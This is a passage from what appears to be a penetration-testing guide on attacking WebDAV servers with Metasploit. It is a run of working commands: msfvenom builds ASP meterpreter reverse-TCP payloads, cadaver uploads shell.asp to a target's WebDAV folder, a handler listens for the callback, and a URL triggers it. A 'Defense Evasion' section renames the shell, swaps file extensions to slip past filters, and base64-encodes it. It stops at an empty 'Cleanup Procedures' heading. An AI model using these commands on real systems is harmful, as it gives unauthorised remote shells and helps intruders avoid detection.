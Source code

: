 ## Metasploit Integration

### Generating ASP Payload

```bash
# Generate ASP meterpreter payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=4444 -f asp > shell.asp

# Alternative payloads
msfvenom -p windows/shell/reverse_tcp LHOST=<your_ip> LPORT=4444 -f asp > shell.asp
```

### Upload and Execute Metasploit Payload

```bash
# Upload via cadaver
cadaver http://<target_ip>/webdav/
put shell.asp
quit

# Start Metasploit handler
msfconsole -q -x "
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <your_ip>
set LPORT 4444
exploit
"

# Trigger the payload by accessing:
# http://<target_ip>/webdav/shell.asp
```

## Defense Evasion Techniques

### Obfuscation Methods

```bash
# Rename to less suspicious name
mv shell.asp document_update.asp

# Use alternative extensions
cp shell.asp shell.asa
cp shell.asp shell.cer

# Encode payload
base64 -w0 shell.asp > shell.b64
```

### Cleanup Procedures
